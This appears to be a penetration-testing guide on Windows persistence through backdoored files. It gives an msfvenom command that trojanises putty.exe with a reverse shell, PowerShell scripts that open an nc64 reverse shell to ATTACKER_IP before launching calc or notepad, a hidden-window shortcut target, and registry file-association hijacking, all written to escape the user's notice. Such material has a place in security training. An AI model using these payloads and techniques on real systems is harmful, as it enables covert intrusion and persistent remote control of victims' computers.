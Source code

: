 # Backdooring files

Another method of establishing persistence tampers with files we know users interact with regularly. 
We can plant backdoors that will get executed whenever the user accesses them. We do not want to create any alerts 
that could blow our cover, so the files we alter must keep working for the user as expected.

There are many ways and files to plant backdoors in. These are the most commonly used ones.

## Executable Files

Any executable lying around the desktop are highly likely used frequently. Suppose we find a shortcut to `PuTTY`. 
Checking the shortcut's properties, it probably points to `C:\Program Files\PuTTY\putty.exe`. We could download the 
executable to our attacker's machine and modify it to run any payload we wanted.

To create a backdoored `putty.exe`:

    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe

The binary will still work as usual and will execute an additional payload silently by adding an extra thread in the 
binary. The resulting `puttyX.exe` will execute a `reverse_tcp meterpreter` payload without the user noticing it.

## Shortcut files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing 
directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute 
the usual program normally.

For example, if there is a calc shortcut, find where it is pointing to by right-clicking it and going to properties.

Create a Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse 
shell and then run `calc.exe` from the original location on the shortcut's properties:

    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
    
    C:\Windows\System32\calc.exe

| ![Powershell script](../../_static/images/Screenshot from 2022-10-09 22-07-50.png) |
|:--:|
| Save it as `backdoor.ps1`, or perhaps something less conspicuous |

Change the shortcut to point to the script. Its icon might be automatically adjusted while doing so. Be sure to point 
the icon back to the original executable so that no visible changes appear to the user. We also want to run the script 
in a hidden window, for which we add the `-windowstyle hidden` option to Powershell. 

Making the final target of the shortcut:

    powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1

| ![Calculator properties](../../_static/images/Screenshot from 2022-10-09 21-46-28.png) |
|:--:|
| Enter target for calc shortcut in its properties window, don't forget to change the icon |

Start a netcat listener to receive the reverse shell:

    nc -nlvp 4445

Try it out by double-clicking the shortcut, see that there is a connection back to the attack machine, and that 
the user will get a calculator just as expected. There may be a command prompt flashing up and disappearing 
immediately on the screen. A regular user might not mind too much about that, maybe. 

## Hijacking file associations

We can also hijack any file association to force the operating system to run a shell whenever the user opens a 
specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single 
file type under `HKLM\Software\Classes\`. Check for the `.fileextension` subkey and find which Programmatic ID 
(ProgID) is associated with it.

Then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), which will give 
a reference to the program in charge of handling its type of files. Most ProgID entries will have a subkey 
under `shell\open\command` where the default command to be run for files with that extension is specified. If we 
want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens 
the file as usual.

Powershell script, for example for notepad (`.txt` extensions):

    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
    C:\Windows\system32\NOTEPAD.EXE $args[0]

Note: we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through 
`%1`.

Change the registry key to run our backdoor script in a hidden window (Data section), create a listener for the 
reverse shell and try to open any `.txt` file on the target machine.



